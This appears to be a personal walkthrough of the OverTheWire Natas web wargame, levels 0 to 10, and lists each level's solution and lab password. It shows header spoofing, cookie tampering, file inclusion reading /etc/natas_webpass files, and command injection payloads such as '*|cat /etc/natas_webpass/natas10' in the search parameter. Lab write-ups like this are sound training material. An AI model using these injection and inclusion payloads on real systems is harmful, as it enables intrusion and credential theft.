 https://overthewire.org/wargames/natas/

<h1>level0:</h1>

visiting http://natas0.natas.labs.overthewire.org/

inspect and found the password as a comment 

![0](https://user-images.githubusercontent.com/69141453/113185121-0c6ed480-9224-11eb-879e-a2fef638d805.png)

```
<!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto-->
```


<h1>level1:</h1>

visiting http://natas1.natas.labs.overthewire.org/

right click was disabled so **ctl+shift+i**
```
<!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi-->
```


<h1>level2:</h1>

visiting http://natas2.natas.labs.overthewire.org/

inspected source code and found /files/pixel.png then went to /files/ which lead to http://natas2.natas.labs.overthewire.org/files/users.txt 
```
# username:password
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
eve:zo4mJWyNj2
mallory:9urtcpzBmH
```


<h1>level3:</h1>

visiting http://natas3.natas.labs.overthewire.org/

since it said google wont get it in the inspect source as a comment, that means robots.txt
on http://natas3.natas.labs.overthewire.org/robots.txt
```
User-agent: *
Disallow: /s3cr3t/
```
went to http://natas3.natas.labs.overthewire.org/s3cr3t/ and then to http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt
```
natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
```


<h1>level4:</h1>

visiting http://natas4.natas.labs.overthewire.org/
via burpsuite i added this header in the request 
```
Referer: http://natas5.natas.labs.overthewire.org/
```
resulted in
```
Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
```


<h1>level5:</h1>

visiting http://natas5.natas.labs.overthewire.org/

in inspect code > storage i changed the cookie loggedin:0 to loggedin:1 and refreshed the page 

![5](https://user-images.githubusercontent.com/69141453/113185066-fbbe5e80-9223-11eb-9510-cccb58f70588.png)

```
Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
```



<h1>level6:</h1>

visiting http://natas6.natas.labs.overthewire.org/

in http://natas6.natas.labs.overthewire.org/index-source.html i found the /includes/secret.inc path so i went http://natas6.natas.labs.overthewire.org/includes/secret.inc 
but nothing was there, so i inspected the page 
```
?
$secret = "FOEIUWGHFEEUHOFUOIU";
?
```
submit it and 
```
Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 
```


<h1>level7:</h1>

visiting natas7.natas.labs.overthewire.org
```
hint: password for webuser natas8 is in /etc/natas_webpass/natas8 
```
clicking at **home** and **about** gave us the parameter **?page=** so paste that path there
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

```
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
```


<h1>level8:</h1>

visiting natas8.natas.labs.overthewire.org

in http://natas8.natas.labs.overthewire.org/index-source.html
```
$encodedSecret = "3d3d516343746d4d6d6c315669563362";
```
first i used [cipher identifier](https://www.boxentriq.com/code-breaking/cipher-identifier) which said hex so decoded from hex in [cyberchef](https://gchq.github.io/CyberChef) **==QcCtmMml1ViV3b** and reversed it in https://codebeautify.org/reverse-string that gave **b3ViV1lmMmtCcQ==** then decoded from base64 **oubWYf2kBq** and submitted it
```
Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl 
```



<h1>level9:</h1>

visiting natas9.natas.labs.overthewire.org

first i submitted "needle" and gave me a bunch of words containing "needle" then i tried http://natas9.natas.labs.overthewire.org/?needle=*&submit=Search and gave me all of the file this meant that its executing it
since all password stored in **/etc/natas_webpass** then http://natas9.natas.labs.overthewire.org/?needle=*|cat%20/etc/natas_webpass/natas10&submit=Search
```
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```



<h1>level10:</h1>

visiting natas10.natas.labs.overthewire.org

http://natas10.natas.labs.overthewire.org/index-source.html is filtering some symbols, so i tried 
```
* /etc/natas_webpass/natas11
```
that didnt work but i saw a writeup that added a dot and that worked
```
.* /etc/natas_webpass/natas11
```
or a new line encoded in URL
```
%0Acat /etc/natas_webpass/natas11
```
gave
```
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```

